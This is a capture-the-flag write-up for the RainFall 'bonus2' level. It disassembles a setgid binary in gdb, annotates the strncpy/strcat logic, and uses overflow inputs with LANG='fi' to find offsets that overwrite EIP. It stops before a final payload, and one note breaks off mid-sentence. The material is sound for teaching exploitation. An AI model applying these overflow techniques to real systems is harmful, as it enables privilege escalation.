


# bonus2

## Hint

When we log into the machine as `bonus2`, we notice a binary:

```shell-session
bonus2@RainFall:~$ ls -l
total 8
-rwsr-s---+ 1 bonus3 users 5664 Mar  6  2016 bonus2
```

We notice that the guid bit is set, so the executable gets the rights of its group owners granted when it is executed, and conveniently enough the group in question is our target for the current level.

After some playing around we can see we can make the binary crash with a long enough input:

```shell-session
bonus2@RainFall:~$ ./bonus2 lol
bonus2@RainFall:~$ ./bonus2 bonjour bonjour
Hello bonjour
bonus2@RainFall:~$ ./bonus2 euh bonjour
Hello euh
bonus2@RainFall:~$ ./bonus2 HELLOABCDEFGHIJKLMNOPFQRSTUVXYZ0123456789 HELLLOOOOOOOOOOOOOOOOOO>
Hello HELLOABCDEFGHIJKLMNOPFQRSTUVXYZ012345678HELLLOOOOOOOOOOOOOOOOOOOOOOOOOOO
Segmentation fault (core dumped)
bonus2@RainFall:~$ ./bonus2 HELLOABCDEFGHIJKLMNOPFQRSTUVXYZ0123456789 HELLABCDEFGHIJKLMNOPQRSTU
Hello HELLOABCDEFGHIJKLMNOPFQRSTUVXYZ012345678HELLABCDEFGHIJKLMNOPQRSTU
bonus2@RainFall:~$ ./bonus2 HELLOABCDEFGHIJKLMNOPFQRSTUVXYZ0123456789 HELLOABCDEFGHIJKLMNOPQRSTU
Hello HELLOABCDEFGHIJKLMNOPFQRSTUVXYZ012345678HELLOABCDEFGHIJKLMNOPQRSTU
Segmentation fault (core dumped)
```

## gdb

### available symbols

There are only two custom symbols we can see with the `info` gdb cli:

Otherwise, we can notice calls to:
- `strcat`
- `memcmp`
- `getenv`
- `strncpy`
- `puts`

```gdb
gdb-peda$ info functions
All defined functions:

Non-debugging symbols:
0x08048318  _init
0x08048360  memcmp
0x08048360  memcmp@plt
0x08048370  strcat
0x08048370  strcat@plt
0x08048380  getenv
0x08048380  getenv@plt
0x08048390  puts
0x08048390  puts@plt
[...]
0x080483c0  strncpy
0x080483c0  strncpy@plt
[...]
0x08048484  greetuser                  <-- custom function
0x08048529  main
[...]
gdb-peda$ info variable
All defined variables:

Non-debugging symbols:
[...]
0x08049988  language                   <-- custom var 
```

### disas main

Lets analyse what the main does:

```shell-session
bonus2@RainFall:~$ ltrace ./bonus2 wtf1 wtf2
__libc_start_main(0x8048529, 3, 0xbffffcf4, 0x8048640, 0x80486b0 <unfinished ...>
strncpy(0xbffffbf0, "wtf1", 40)                            = 0xbffffbf0
strncpy(0xbffffc18, "wtf2", 32)                            = 0xbffffc18
getenv("LANG")                                             = "en_US.UTF-8"
memcmp(0xbfffff16, 0x804873d, 2, 0xb7fff918, 0)            = -1
memcmp(0xbfffff16, 0x8048740, 2, 0xb7fff918, 0)            = -1
strcat("Hello ", "wtf1")                                   = "Hello wtf1"
puts("Hello wtf1"Hello wtf1
)                                         = 11
+++ exited (status 11) +++
```

`ltrace` tells us what are the arguments to the binary used for: calls to `strncpy` as well as `strcat`... This is probably indicative of a buffer overflow attack opportunity.
Also, we see the first call to `strncpy` consistently gets a copy of `40 bytes` to the destination buffer, while the second gets one of `32`.

It also tells us which env variable is `getenv` asking for from inside the binary: `LANG`

```gdb
gdb-peda$ disas main
Dump of assembler code for function main:
   0x08048529 <+0>:	push   ebp
   0x0804852a <+1>:	mov    ebp,esp
   0x0804852c <+3>:	push   edi
   0x0804852d <+4>:	push   esi
   0x0804852e <+5>:	push   ebx
   0x0804852f <+6>:	and    esp,0xfffffff0
   0x08048532 <+9>:	sub    esp,0xa0                     <-- Allocating 160 bytes on main
   0x08048538 <+15>:	cmp    DWORD PTR [ebp+0x8],0x3      <-- test if argc == 3
   0x0804853c <+19>:	je     0x8048548 <main+31>	    <-- TRUE, continue at +31
   0x0804853e <+21>:	mov    eax,0x1                      <-- FALSE, store 1 in eax
   0x08048543 <+26>:	jmp    0x8048630 <main+263>         <-- FALSE, continue at +263 (return(1))
   0x08048548 <+31>:	lea    ebx,[esp+0x50]		    <-- esp with offset of 80, pointer to buffer
   0x0804854c <+35>:	mov    eax,0x0                      <-- prepare value for repstos
   0x08048551 <+40>:	mov    edx,0x13			    <-- put 19 in edx 
   0x08048556 <+45>:	mov    edi,ebx			    <-- give buffer to bzero
   0x08048558 <+47>:	mov    ecx,edx			    <-- feed length of 19 to bzero
   0x0804855a <+49>:	rep stos DWORD PTR es:[edi],eax     <-- optimised call to bzero
   0x0804855c <+51>:	mov    eax,DWORD PTR [ebp+0xc]      <-- get address at base + 12 (char **argv)
   0x0804855f <+54>:	add    eax,0x4			    <-- increase address of argv by 4 bytes (*argv + 1)
   0x08048562 <+57>:	mov    eax,DWORD PTR [eax]          <-- get that address 
   0x08048564 <+59>:	mov    DWORD PTR [esp+0x8],0x28     <-- feed value of 40 to strncpy
   0x0804856c <+67>:	mov    DWORD PTR [esp+0x4],eax      <-- feed argv[1] (or *argv + 1) to strncpy
   0x08048570 <+71>:	lea    eax,[esp+0x50]		    <-- load buffer address
   0x08048574 <+75>:	mov    DWORD PTR [esp],eax	    <-- feed buffer to strncpy
   0x08048577 <+78>:	call   0x80483c0 <strncpy@plt>      <-- strncpy(buffer, argv[1], 40)
   0x0804857c <+83>:	mov    eax,DWORD PTR [ebp+0xc]      <-- get address at base + 12 (char **argv)
   0x0804857f <+86>:	add    eax,0x8                      <-- increase address of argv by 8 bytes (*argv + 2)
   0x08048582 <+89>:	mov    eax,DWORD PTR [eax]          <-- get that address 
   0x08048584 <+91>:	mov    DWORD PTR [esp+0x8],0x20     <-- feed value of 32 to strncpy
   0x0804858c <+99>:	mov    DWORD PTR [esp+0x4],eax      <-- feed argv[1] (or *argv + 1) to strncpy
   0x08048590 <+103>:	lea    eax,[esp+0x50]               <-- load address of buffer
   0x08048594 <+107>:	add    eax,0x28			    <-- increment buffer pointer by 40
   0x08048597 <+110>:	mov    DWORD PTR [esp],eax	    <-- feed buffer to strncpy
   0x0804859a <+113>:	call   0x80483c0 <strncpy@plt>      <-- strncpy(buffer + 40, argv[2], 32)
   0x0804859f <+118>:	mov    DWORD PTR [esp],0x8048738    <-- "LANG"
   0x080485a6 <+125>:	call   0x8048380 <getenv@plt>       <-- getenv("LANG")
   0x080485ab <+130>:	mov    DWORD PTR [esp+0x9c],eax     <-- retrieve returned value in local var
   0x080485b2 <+137>:	cmp    DWORD PTR [esp+0x9c],0x0     <-- test if localvar == 0 (getenv can return NULL)
   0x080485ba <+145>:	je     0x8048618 <main+239>         <-- TRUE, continue at 239
   0x080485bc <+147>:	mov    DWORD PTR [esp+0x8],0x2	    <-- feed 2 to memcmp 
   0x080485c4 <+155>:	mov    DWORD PTR [esp+0x4],0x804873d<-- "fi"
   0x080485cc <+163>:	mov    eax,DWORD PTR [esp+0x9c]     <-- put address of local var in eax
   0x080485d3 <+170>:	mov    DWORD PTR [esp],eax          <-- get address returned by getenv
   0x080485d6 <+173>:	call   0x8048360 <memcmp@plt>       <-- memcmp(envstr, "fi", 2)
   0x080485db <+178>:	test   eax,eax                      <-- test if memcmp(envstr, "fi", 2) == 0 
   0x080485dd <+180>:	jne    0x80485eb <main+194>         <-- FALSE, continue at +194
   0x080485df <+182>:	mov    DWORD PTR ds:0x8049988,0x1   <-- TRUE, put 1 in global symbol "language" 
   0x080485e9 <+192>:	jmp    0x8048618 <main+239>         <-- TRUE, continue at +239 
   0x080485eb <+194>:	mov    DWORD PTR [esp+0x8],0x2      <-- feed 2 to memcmp 
   0x080485f3 <+202>:	mov    DWORD PTR [esp+0x4],0x8048740<-- "nl"
   0x080485fb <+210>:	mov    eax,DWORD PTR [esp+0x9c]     <-- put address of local var in eax
   0x08048602 <+217>:	mov    DWORD PTR [esp],eax          <-- get address returned by getenv
   0x08048605 <+220>:	call   0x8048360 <memcmp@plt>       <-- memcmp(envstr, "nl", 2)
   0x0804860a <+225>:	test   eax,eax                      <-- test if memcmp(envstr, "nl", 2) == 0
   0x0804860c <+227>:	jne    0x8048618 <main+239>         <-- FALSE, continue at +239
   0x0804860e <+229>:	mov    DWORD PTR ds:0x8049988,0x2   <-- TRUE, put 2 in global symbol "language"
   0x08048618 <+239>:	mov    edx,esp
   0x0804861a <+241>:	lea    ebx,[esp+0x50]               <-- load buffer to ebx
   0x0804861e <+245>:	mov    eax,0x13			    <-- put 19 in eax 
   0x08048623 <+250>:	mov    edi,edx
   0x08048625 <+252>:	mov    esi,ebx			    <-- feed buffer to strncpy
   0x08048627 <+254>:	mov    ecx,eax			    <-- feed 19 to strncpy
   0x08048629 <+256>:	rep movs DWORD PTR es:[edi],DWORD PTR ds:[esi]
   0x0804862b <+258>:	call   0x8048484 <greetuser>        <-- greetuser (returned address of strncpy)
   0x08048630 <+263>:	lea    esp,[ebp-0xc]
   0x08048633 <+266>:	pop    ebx
   0x08048634 <+267>:	pop    esi
   0x08048635 <+268>:	pop    edi
   0x08048636 <+269>:	pop    ebp
   0x08048637 <+270>:	ret
End of assembler dump.
```

Some information on the optimised operations:

> ***NB:`rep stos`: rep repeats the following string operation ecx times. stos fills memory (at [edi]) with a given value (in eax)***

> ***NB:`rep movs`: rep repeats the following string operation ecx times. movs copies data from ds:esi to es:edi and increments or decrements the pointers based on the setting of the direction flag. As such, repeating it will move a range of memory to somewhere else.***

### disas greetuser

```gdb
gdb-peda$ disas greetuser
Dump of assembler code for function greetuser:
   0x08048484 <+0>:	push   ebp
   0x08048485 <+1>:	mov    ebp,esp
   0x08048487 <+3>:	sub    esp,0x58                  <-- allocate 88 on greetuser stack 
   0x0804848a <+6>:	mov    eax,ds:0x8049988          <-- move value in global var language in eax
   0x0804848f <+11>:	cmp    eax,0x1			 <-- test if (language == 1)
   0x08048492 <+14>:	je     0x80484ba <greetuser+54>  <-- TRUE, continue at +54
   0x08048494 <+16>:	cmp    eax,0x2			 <-- test if (language == 2)
   0x08048497 <+19>:	je     0x80484e9 <greetuser+101> <-- TRUE, continue at +101
   0x08048499 <+21>:	test   eax,eax                   <-- test if (language == 0)
   0x0804849b <+23>:	jne    0x804850a <greetuser+134> <-- TRUE, continue at +134
   0x0804849d <+25>:	mov    edx,0x8048710             <-- move static string "Hello " to edx
   0x080484a2 <+30>:	lea    eax,[ebp-0x48]
   0x080484a5 <+33>:	mov    ecx,DWORD PTR [edx]
   0x080484a7 <+35>:	mov    DWORD PTR [eax],ecx
   0x080484a9 <+37>:	movzx  ecx,WORD PTR [edx+0x4]
   0x080484ad <+41>:	mov    WORD PTR [eax+0x4],cx
   0x080484b1 <+45>:	movzx  edx,BYTE PTR [edx+0x6]
   0x080484b5 <+49>:	mov    BYTE PTR [eax+0x6],dl
   0x080484b8 <+52>:	jmp    0x804850a <greetuser+134>
   0x080484ba <+54>:	mov    edx,0x8048717             <-- move static string "Hyvää päivää " to edx
   0x080484bf <+59>:	lea    eax,[ebp-0x48]
   0x080484c2 <+62>:	mov    ecx,DWORD PTR [edx]
   0x080484c4 <+64>:	mov    DWORD PTR [eax],ecx
   0x080484c6 <+66>:	mov    ecx,DWORD PTR [edx+0x4]
   0x080484c9 <+69>:	mov    DWORD PTR [eax+0x4],ecx
   0x080484cc <+72>:	mov    ecx,DWORD PTR [edx+0x8]
   0x080484cf <+75>:	mov    DWORD PTR [eax+0x8],ecx
   0x080484d2 <+78>:	mov    ecx,DWORD PTR [edx+0xc]
   0x080484d5 <+81>:	mov    DWORD PTR [eax+0xc],ecx
   0x080484d8 <+84>:	movzx  ecx,WORD PTR [edx+0x10]
   0x080484dc <+88>:	mov    WORD PTR [eax+0x10],cx
   0x080484e0 <+92>:	movzx  edx,BYTE PTR [edx+0x12]
   0x080484e4 <+96>:	mov    BYTE PTR [eax+0x12],dl
   0x080484e7 <+99>:	jmp    0x804850a <greetuser+134>
   0x080484e9 <+101>:	mov    edx,0x804872a             <-- move static string "Goedemiddag! " to edx
   0x080484ee <+106>:	lea    eax,[ebp-0x48]
   0x080484f1 <+109>:	mov    ecx,DWORD PTR [edx]
   0x080484f3 <+111>:	mov    DWORD PTR [eax],ecx
   0x080484f5 <+113>:	mov    ecx,DWORD PTR [edx+0x4]
   0x080484f8 <+116>:	mov    DWORD PTR [eax+0x4],ecx
   0x080484fb <+119>:	mov    ecx,DWORD PTR [edx+0x8]
   0x080484fe <+122>:	mov    DWORD PTR [eax+0x8],ecx
   0x08048501 <+125>:	movzx  edx,WORD PTR [edx+0xc]
   0x08048505 <+129>:	mov    WORD PTR [eax+0xc],dx
   0x08048509 <+133>:	nop
   0x0804850a <+134>:	lea    eax,[ebp+0x8]             <-- load address of argument to the function
   0x0804850d <+137>:	mov    DWORD PTR [esp+0x4],eax   <-- feed argument to strcat
   0x08048511 <+141>:	lea    eax,[ebp-0x48]            <-- load address of local variable
   0x08048514 <+144>:	mov    DWORD PTR [esp],eax       <-- feed local var to strcat
   0x08048517 <+147>:	call   0x8048370 <strcat@plt>
   0x0804851c <+152>:	lea    eax,[ebp-0x48]
   0x0804851f <+155>:	mov    DWORD PTR [esp],eax
   0x08048522 <+158>:	call   0x8048390 <puts@plt>
   0x08048527 <+163>:	leave
   0x08048528 <+164>:	ret
End of assembler dump.
```

`greetuser` visibly takes a string of a given language (one of 3: nl, fi or defaults to english) and concatenates user input to the correpsonding greeting message.

Since all Greeting Messages are not of same length, there must be something to explore there, so lets do some testing with different environment variables.

First, lets see how different buffer offsets are by using our trusted pattern generator.

To do this we use the same commandline for each case and see the difference:

```gdb
run $(python -c "print '\x90'*40") Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag
```

> ***NB: we feed the first argument with 40 NOP bytes because ***

## "Hello" 

```gdb
[----------------------------------registers-----------------------------------]
EAX: 0x4f ('O')
EBX: 0xbffffaf0 --> 0x90909090
ECX: 0xffffffff
EDX: 0xb7fd28b8 --> 0x0
ESI: 0xbffffb3c --> 0xbfffff24 ("en_US.UTF-8")
EDI: 0xbffffaec --> 0xb7e5ec73 (add    ebx,0x172381)
EBP: 0x39614138 ('8Aa9')                            <-- EBP overwritten
ESP: 0xbffffaa0 --> 0x90909090
EIP: 0x8006241
EFLAGS: 0x210286 (carry PARITY adjust zero SIGN trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
Invalid $PC address: 0x8006241
[------------------------------------stack-------------------------------------]
0000| 0xbffffaa0 --> 0x90909090
0004| 0xbffffaa4 --> 0x90909090
0008| 0xbffffaa8 --> 0x90909090
0012| 0xbffffaac --> 0x90909090
0016| 0xbffffab0 --> 0x90909090
0020| 0xbffffab4 --> 0x90909090
0024| 0xbffffab8 --> 0x90909090
0028| 0xbffffabc --> 0x90909090
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
Stopped reason: SIGSEGV
0x08006241 in ?? ()
```



Here we see that offset is of `26` but the register overwritten is `EBP`, not `EIP`

## Hyvää päivää

```gdb
[----------------------------------registers-----------------------------------]
EAX: 0x5b ('[')
EBX: 0xbffffaf0 --> 0x90909090
ECX: 0xffffffff
EDX: 0xb7fd28b8 --> 0x0
ESI: 0xbffffb3c --> 0xbfffff2d --> 0x4c006966 ('fi')
EDI: 0xbffffaec --> 0xb7e5ec73 (add    ebx,0x172381)
EBP: 0x35614134 ('4Aa5')
ESP: 0xbffffaa0 ("a7Aa8Aa9Ab")
EIP: 0x41366141 ('Aa6A')                            <-- EIP is overwritten2
EFLAGS: 0x210286 (carry PARITY adjust zero SIGN trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
Invalid $PC address: 0x41366141
[------------------------------------stack-------------------------------------]
0000| 0xbffffaa0 ("a7Aa8Aa9Ab")
0004| 0xbffffaa4 ("8Aa9Ab")
0008| 0xbffffaa8 --> 0x90006241
0012| 0xbffffaac --> 0x90909090
0016| 0xbffffab0 --> 0x90909090
0020| 0xbffffab4 --> 0x90909090
0024| 0xbffffab8 --> 0x90909090
0028| 0xbffffabc --> 0x90909090
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
Stopped reason: SIGSEGV
0x41366141 in ?? ()
```



Visibly buffer offset is 18

## Where to go next

We have asserted the respective offsets of the buffer for each case of the execution ("fi" and default "en").

We know that the EIP is overwritten only when the Greeting Message is of length 13 (either "fi" or "nl").

Now we know 

```shell-session
bonus2@RainFall:~$ LANG="fi" ./bonus2 $(python -c "print '\x90'*40")
bonus2@RainFall:~$ LANG="fi" ./bonus2 $(python -c "print '\x90'*40") hellooooooooo
Hyvää päivää hellooooooooo
bonus2@RainFall:~$ LANG="fi" ./bonus2 $(python -c "print '\x90'*40") helloooooooooo
Hyvää päivää helloooooooooo
Segmentation fault (core dumped)
```
